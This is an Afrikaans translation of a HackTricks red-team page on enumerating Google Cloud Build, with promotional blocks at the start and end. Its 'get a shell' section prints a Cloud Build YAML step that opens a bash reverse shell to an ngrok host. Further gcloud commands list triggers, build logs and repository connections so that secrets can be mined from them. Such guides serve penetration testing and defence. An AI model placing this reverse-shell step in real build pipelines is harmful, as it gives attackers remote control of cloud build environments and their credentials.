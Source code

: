 # GCP - Cloud Build Enum

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Google Cloud Build is 'n bestuurde CI/CD-platform wat **die outomatiese sagtewarebou- en vrystellingsprosesse outomatiseer**, integreer met **bronkode-opslagplaas** en 'n wye verskeidenheid programmeertaale ondersteun. Dit **laat ontwikkelaars toe om kode outomaties te bou, toets en implementeer** terwyl dit die buigsaamheid bied om boustappe en werkafloei aan te pas.

Elke Cloud Build Trigger is **verwant aan 'n Cloud Repository of direk gekoppel met 'n eksterne opslagplaas** (Github, Bitbucket en Gitlab).

{% hint style="success" %}
Ek kon nie enige manier sien om die Github/Bitbucket-token van hier of van Cloud Repositories te steel nie omdat wanneer die opslagplaas afgelaai word, dit via 'n [https://source.cloud.google.com/](https://source.cloud.google.com/) URL toegang kry en Github nie deur die klient toegang kry nie.
{% endhint %}

### Gebeure

Die Cloud Build kan geaktiveer word as:

* **Druk na 'n tak**: Spesifiseer die tak
* **Druk 'n nuwe etiket**: Spesifiseer die etiket
* **Pull-aanvraag**: Spesifiseer die tak wat die PR ontvang
* **Handmatige Uitlokking**
* **Pub/Sub-boodskap**: Spesifiseer die onderwerp
* **Webhook-gebeurtenis**: Sal 'n HTTPS-URL blootstel en die versoek moet geauthentiseer word met 'n geheim

### Uitvoering

Daar is 3 opsies:

* 'n yaml/json **wat die bevele spesifiseer** om uit te voer. Gewoonlik: `/cloudbuild.yaml`
* Slegs een wat "inline" in die webkonsolideer en in die opdraggewer kan gespesifiseer word
* Mees algemene opsie
* Relevant vir ongeauthentiseerde toegang
* 'n **Dockerfile** om te bou
* 'n **Buildpack** om te bou

### SA-permissies

Die **Diensrekening het die `cloud-platform`-omvang**, sodat dit **alle die voorregte kan gebruik.** As **geen SA gespesifiseer is** (soos wanneer 'n indiening gedoen word) sal die **verstek SA** `<proj-nommer>@cloudbuild.gserviceaccount.com` **gebruik word.**

Standaard word geen toestemmings gegee nie, maar dit is redelik maklik om dit te gee:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Goedkeurings

Dit is moontlik om 'n Cloud Build te konfigureer om **goedkeuring vir bou-uitvoerings te vereis** (standaard gedeaktiveer).

### Verbindings & Opbergings

Verbindings kan geskep word oor:

* **GitHub:** Dit sal 'n OAuth-prompt wys wat vra vir toestemmings om 'n Github-token te **kry wat binne die **Secret Manager** gestoor sal word.**
* **GitHub Enterprise:** Dit sal vra om 'n **GithubApp** te installeer. 'n **Verifikasietoken** van jou GitHub Enterprise-gashuis sal geskep word en in hierdie projek as 'n **Secret Manager**-geheim gestoor word.
* **GitLab / Enterprise:** Jy moet die API-toegangstoken en die Lees-API-toegangstoken **verskaf wat in die **Secret Manager** gestoor sal word.**

Sodra 'n verbinding gegenereer is, kan jy dit gebruik om **opslagplaas te koppel wat die Github-rekening toegang tot** het.

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Let daarop dat opslagplase wat op hierdie manier gekoppel is, **slegs beskikbaar is in Triggers wat 2de generasie gebruik.**
{% endhint %}

### Koppel 'n Opbergingsplaas

Dit is nie dieselfde as 'n **`verbindings`** nie. Dit maak **verskillende** maniere moontlik om **toegang tot 'n Github- of Bitbucket-opslagplaas** te kry, maar **skep nie 'n verbindingsobjek nie, maar dit skep 'n opbergingsobjek (van 1ste generasie).**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Opberging

Soms sal Cloud Build 'n nuwe opbergingsplek genereer om die lêers vir die trekker te stoor. Dit gebeur byvoorbeeld in die voorbeeld wat GCP aanbied met:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
'n Stoorhouer genaamd [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is geskep om 'n `.tgz` met die lêers wat gebruik moet word, te stoor.

### Kry 'n skaal
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Opsomming

Jy kan **sensitiewe inligting in boukonfigurasies en -logs vind**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Voorregskaping

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Ongeagte Toegang

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Na-Exploitasie

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
